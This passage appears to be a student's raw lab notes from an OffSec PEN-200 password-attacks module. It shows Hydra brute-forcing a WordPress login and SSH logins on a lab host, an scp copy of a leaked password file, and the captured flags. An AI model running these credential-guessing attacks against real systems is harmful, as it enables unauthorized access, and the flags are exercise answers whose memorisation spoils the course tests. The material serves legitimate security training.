[ATTEMPT] target 192.168.125.52 - login "michael" - pass "peanut" - 163 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "blink182" - 164 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "sweetie" - 165 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "222222" - 166 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "beauty" - 167 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "987654" - 168 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "victoria" - 169 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "honey" - 170 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "00000" - 171 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "fernando" - 172 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "pokemon" - 173 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "maggie" - 174 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "corazon" - 175 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "chicken" - 176 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "pepper" - 177 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "cristina" - 178 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "rainbow" - 179 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "kisses" - 180 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "manuel" - 181 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "myspace" - 182 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "rebelde" - 183 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "angel1" - 184 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "ricardo" - 185 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "babygurl" - 186 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "heaven" - 187 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "55555" - 188 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "baseball" - 189 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "martin" - 190 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "greenday" - 191 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "november" - 192 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "alyssa" - 193 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "madison" - 194 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "mother" - 195 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "123321" - 196 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "123abc" - 197 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "mahalkita" - 198 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "batman" - 199 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "september" - 200 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "december" - 201 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "morgan" - 202 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "mariposa" - 203 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "maria" - 204 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "gabriela" - 205 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "iloveyou2" - 206 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "bailey" - 207 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "jeremy" - 208 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "pamela" - 209 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "kimberly" - 210 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "gemini" - 211 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "shannon" - 212 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "pictures" - 213 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "asshole" - 214 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "sophie" - 215 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "jessie" - 216 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "hellokitty" - 217 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "claudia" - 218 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "babygirl1" - 219 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "angelica" - 220 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "austin" - 221 of 14344399 [child 9] (0/0)
[VERBOSE] Page redirected to http[s]://192.168.125.52:80/wp-admin/
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "mahalko" - 222 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "victor" - 223 of 14344399 [child 5] (0/0)
[VERBOSE] Page redirected to http[s]://192.168.125.52:80/wp-login.php?redirect_to=http%3A%2F%2F192.168.125.52%3A80%2Fwp-admin%2F&reauth=1
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "horses" - 224 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "tiffany" - 225 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "mariana" - 226 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "eduardo" - 227 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "andres" - 228 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "courtney" - 229 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "booboo" - 230 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "kissme" - 231 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "harley" - 232 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "ronaldo" - 233 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "iloveyou1" - 234 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "precious" - 235 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "october" - 236 of 14344399 [child 9] (0/0)
[80][http-post-form] host: 192.168.125.52   login: michael   password: iloveyou2
[STATUS] attack finished for 192.168.125.52 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-08 20:05:29

log in michael:iloveyou2

go to draft posts

Great job. The flag is: OS{641ce21d615ea668060e3a3038e7756b}



```

    Use a password attack technique to log into the target VM #6 via SSH with the user offsec.

```


hydra -l offsec -P /usr/share/wordlists/rockyou.txt ssh://$IP -vVf -s 2222


[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "dallas" - 542 of 14344400 [child 0] (0/1)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "hearts" - 543 of 14344400 [child 8] (0/1)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "camille" - 544 of 14344400 [child 1] (0/1)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "wilson" - 545 of 14344400 [child 3] (0/1)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "potter" - 546 of 14344400 [child 4] (0/1)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "pumpkin" - 547 of 14344400 [child 7] (0/1)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "iloveu2" - 548 of 14344400 [child 10] (0/1)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "number1" - 549 of 14344400 [child 11] (0/1)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "katie" - 550 of 14344400 [child 12] (0/1)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "guitar" - 551 of 14344400 [child 13] (0/1)
[2222][ssh] host: 192.168.125.52   login: offsec   password: katie
[STATUS] attack finished for 192.168.125.52 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-08 20:42:57
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ ssh offsec@$IP -p 2222 -o "UserKnownHostsFile=/dev/null"                          
The authenticity of host '[192.168.125.52]:2222 ([192.168.125.52]:2222)' can't be established.
ED25519 key fingerprint is SHA256:B0J0flfJ43NpUkFeZpWEqdxJ2CHcvg2tS02m+kv81Sw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.125.52]:2222' (ED25519) to the list of known hosts.
Welcome to the PTAP Kali Linux Shell.
offsec@192.168.125.52's password: 
offsec@06789d7050e7:~$ ls
flag.txt
offsec@06789d7050e7:~$ cat flag.txt
OS{32670949a015060c38b6db59632bcc36}
offsec@06789d7050e7:~$ 


```

    The shadow man admin messed up the configurations on the target VM #7 server and gave you access to see something he shouldn't have. Can you use this access to read the flag?

```

                                                                                                                                                                                           
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ scp -P 2222 student@$IP:/home/student/passwords.txt /home/kali/Documents/git/bravo/offsec/pen200/19-PasswordAttacks/7.passwords
The authenticity of host '[192.168.125.52]:2222 ([192.168.125.52]:2222)' can't be established.
ED25519 key fingerprint is SHA256:kQWbnD1pQhMxOmnxjR2BRK205LhaOodfylZWjIPpX9s.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.125.52]:2222' (ED25519) to the list of known hosts.
Welcome to the PEN-200 Kali Linux Shell.
student@192.168.125.52's password: 
passwords.txt                                                                                                                                             100% 1527     2.4KB/s   00:00    
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ hydra -l "shadow-man" -P 7.passwords ssh://$IP -vVf -s 2222                             
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-08 20:50:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 195 login tries (l:1/p:195), ~13 tries per task
[DATA] attacking ssh://192.168.125.52:2222/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://shadow-man@192.168.125.52:2222
[INFO] Successful, password authentication is supported by ssh://192.168.125.52:2222
[ATTEMPT] target 192.168.125.52 - login "shadow-man" - pass "zxcvbnm" - 1 of 195 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "shadow-man" - pass "edward" - 2 of 195 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "shadow-man" - pass "oliver" - 3 of 195 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "shadow-man" - pass "diana" - 4 of 195 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "shadow-man" - pass "samsung" - 5 of 195 [child 4] (0/0)


[ATTEMPT] target 192.168.125.52 - login "shadow-man" - pass "mybaby" - 123 of 195 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "shadow-man" - pass "sergio" - 124 of 195 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "shadow-man" - pass "welcome" - 125 of 195 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "shadow-man" - pass "metallica" - 126 of 195 [child 10] (0/0)
[2222][ssh] host: 192.168.125.52   login: shadow-man   password: abcdef
[STATUS] attack finished for 192.168.125.52 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-08 20:51:06
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ ssh shadow-man@$IP -p 2222 -o "UserKnownHostsFile=/dev/null"                                                            
The authenticity of host '[192.168.125.52]:2222 ([192.168.125.52]:2222)' can't be established.
ED25519 key fingerprint is SHA256:kQWbnD1pQhMxOmnxjR2BRK205LhaOodfylZWjIPpX9s.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.125.52]:2222' (ED25519) to the list of known hosts.
Welcome to the PEN-200 Kali Linux Shell.
shadow-man@192.168.125.52's password: 
┏━(Message from Kali developers)
┃
┃ This is a minimal installation of Kali Linux, you likely
┃ want to install supplementary tools. Learn how:
┃ ⇒ https://www.kali.org/docs/troubleshooting/common-minimum-setup/
┃
┗━(Run: “touch ~/.hushlogin” to hide this message)
shadow-man@de398d6b8762:~$ ls
flag.txt
shadow-man@de398d6b8762:~$ cat flag
cat: flag: No such file or directory
shadow-man@de398d6b8762:~$ cat flag.txt
OS{4c9cc0db12cde55dd8a14f8033d89d9f}
shadow-man@de398d6b8762:~$ 


```
